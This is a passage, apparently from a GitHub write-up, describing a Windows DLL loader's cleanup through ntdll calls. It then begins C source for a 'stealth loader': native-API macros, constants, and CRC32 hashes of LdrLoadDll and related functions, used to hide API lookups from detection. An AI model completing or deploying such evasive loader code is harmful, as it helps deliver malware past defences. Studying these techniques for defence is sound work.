         3. **Retrieving Function Pointers**:
        - The code retrieves and casts function pointers for the `NtClose` and `NtFreeVirtualMemory` functions from the `ntdll` module. These functions are part of the Native API in Windows and are used for closing handles and freeing virtual memory, respectively.

        4. **Calling Native API Functions**:
        - After retrieving the function pointers, the code calls these functions with relevant arguments. This likely involves closing handles or files using `NtClose` and releasing virtual memory allocated for the DLL using `NtFreeVirtualMemory`.

        Overall, this part of the code handles various aspects of DLL initialization, handle management, and memory deallocation, ensuring proper cleanup and resource release after the DLL has been loaded and executed within a process.

## The stealth Loader
```c
#include <Windows.h>
#include <stdint.h>
#include <stdio.h>
typedef long NTSTATUS;
#define NtCurrentThread() ( (HANDLE)(LONG_PTR) -2 )
#define NtCurrentProcess() ( (HANDLE)(LONG_PTR) -1 )
#define RTL_CONSTANT_STRING(s) { sizeof(s)-sizeof((s)[0]), sizeof(s), s }

#define OBJ_INHERIT                                 0x00000002L
#define OBJ_PERMANENT                               0x00000010L
#define OBJ_EXCLUSIVE                               0x00000020L
#define OBJ_CASE_INSENSITIVE                        0x00000040L
#define OBJ_OPENIF                                  0x00000080L
#define OBJ_OPENLINK                                0x00000100L
#define OBJ_KERNEL_HANDLE                           0x00000200L
#define OBJ_FORCE_ACCESS_CHECK                      0x00000400L
#define OBJ_IGNORE_IMPERSONATED_DEVICEMAP           0x00000800
#define OBJ_DONT_REPARSE                            0x00001000
#define OBJ_VALID_ATTRIBUTES                        0x00001FF2
// File create disposition values
#define FILE_SUPERSEDE                          0x00000000
#define FILE_OPEN                               0x00000001
#define FILE_CREATE                             0x00000002
#define FILE_OPEN_IF                            0x00000003
#define FILE_OVERWRITE                          0x00000004
#define FILE_OVERWRITE_IF                       0x00000005
#define FILE_MAXIMUM_DISPOSITION                0x00000005

#define FILL_STRING(string, buffer)                     \
	string.Length = (USHORT)strlen(buffer);             \
	string.MaximumLength = string.Length;               \
	string.Buffer = buffer

#define InitializeObjectAttributes( p, n, a, r, s ) {   \
    (p)->Length = sizeof( OBJECT_ATTRIBUTES );          \
    (p)->RootDirectory = r;                             \
    (p)->Attributes = a;                                \
    (p)->ObjectName = n;                                \
    (p)->SecurityDescriptor = s;                        \
    (p)->SecurityQualityOfService = NULL;               \
    }

#define SEED 0xDEADDEAD
#define HASH(API)(crc32b((uint8_t *)API))

#define RtlInitUnicodeString_CRC32b         0xe17f353f
#define RtlMultiByteToUnicodeN_CRC32b       0xaba11095
#define LdrLoadDll_CRC32b                   0x43638559
```